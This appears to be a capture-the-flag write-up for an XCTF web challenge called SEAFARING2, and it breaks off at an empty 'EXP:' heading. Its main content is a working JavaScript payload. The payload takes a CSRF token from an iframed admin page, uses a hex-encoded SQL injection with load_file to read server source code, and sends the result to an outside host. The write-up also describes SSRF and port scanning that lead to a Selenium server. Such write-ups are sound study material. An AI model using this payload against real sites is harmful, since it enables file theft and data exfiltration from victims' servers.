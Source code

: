 
#### SEAFARING2

From SEAFARING1 , we will have a message after logging in to admin.

```
I will tell you a secret path for web2:/admin/m0st_Secret.php! :)
```

At this point, we have a sql injection available. Therefore, you can use the load_file to read the source code directly. When reading, be careful not to use single quotes, so you need hexadecimal encoding. (Because there is no quotes, there is no way to dumpfile)

Payload:

```js
frameOnload = function () {
    var token = window.frames[0].window.csrf_token;
// var status ='-1 union select 1,2,3,4 -- ';
    var status = '-1 union select load_file(0x2f7661722f7777772f68746d6c2f61646d696e2f6d3073745f5365637265742e706870),2,3,4 -- ';
    view_unreads(token, status);

};


function view_unreads(csrf_token, status) {
    $.ajax({
        type: "POST",
        url: "/admin/handle_message.php",
        data: {"token": csrf_token, "action": "view_unreads", "status": status},
        dataType: "json",
        success: function (data) {
            send_secret(data["result"],data["error"]);

        }
    });
}

function send_secret(data,error){
    var url = 'http://oj.momomoxiaoxi.com:9090'
    $.get(url, {'result':data,'error':error});
}

var iframe = document.createElement('iframe');
iframe.src = "http://seafaring.xctf.org.cn:9999/admin/index.php";
iframe.onload = frameOnload;
document.body.appendChild(iframe);
```

Obviously, next step is SSRF , combined with the docker address mechanism, is easy to find that there is still a machine in front, directly scanning the port, you can see that there is a selenium Server on port 4444.

EXP:
